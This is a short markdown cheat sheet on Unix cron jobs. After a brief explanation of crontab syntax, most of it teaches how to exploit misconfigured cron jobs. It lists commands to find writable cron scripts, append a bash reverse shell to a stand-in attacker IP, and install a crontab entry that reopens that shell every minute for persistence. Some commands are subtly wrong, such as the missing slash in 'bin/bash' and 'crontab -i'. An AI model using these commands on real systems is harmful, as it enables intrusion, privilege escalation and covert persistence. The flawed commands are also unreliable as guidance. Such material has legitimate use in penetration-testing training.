 **Cron jobs** are scheduled tasks on Unix-based systems that execute commands or scripts at specified intervals. They are managed by the `cron` daemon and are defined in crontab files.

## Basic Concepts

- **Crontab:** A configuration file where users define scheduled tasks.
- **Cron Format:** A cron job is specified using the following format:
```bash
* * * * * command_to_execute
| | | | |
| | | | +-- Day of the week (0 - 7) [Sunday=0/7]
| | | +---- Month (1 - 12)
| | +------ Day of the month (1 - 31)
| +-------- Hour (0 - 23)
+---------- Minute (0 - 59)
```

## Exploiting Misconfigured Cron Jobs

Cron jobs can be exploited if:

- They execute files in writable locations (e.g., `/tmp`).
- They run scripts or binaries with elevated privileges.

1. **Identify Cron Jobs**

```bash
crontab -l
# Or
cat /etc/crontab
```

2. **Check Permissions:** Ensure the target script or command is writable.

```bash
ls -l /path/to/cron_script.sh
```

3. **Modify the Script:** Insert malicious payloads, such as spawning a reverse shell.

```bash
echo "bash -i >& /dev/tcp/attacker_ip/port 0>&1" >> /path/to/cron_script.sh
```


## Create a new Cron Job
1. **Create a Cron Job in a File**  
Use `echo` to define the cron job and redirect it to a file:
```bash
echo "* * * * * /bin/bash -c 'bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > <new_file>
```

2. **Install the Cron Job Using `crontab`**  
Use the `crontab` command to install the cron job from the file:

```bash
crontab -i <new_file>
```

3. **Verify the Cron Job**  
Check if the cron job was successfully added:

```bash
crontab -l
```
This should display:
```bash
* * * * * /bin/bash -c 'bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'
```

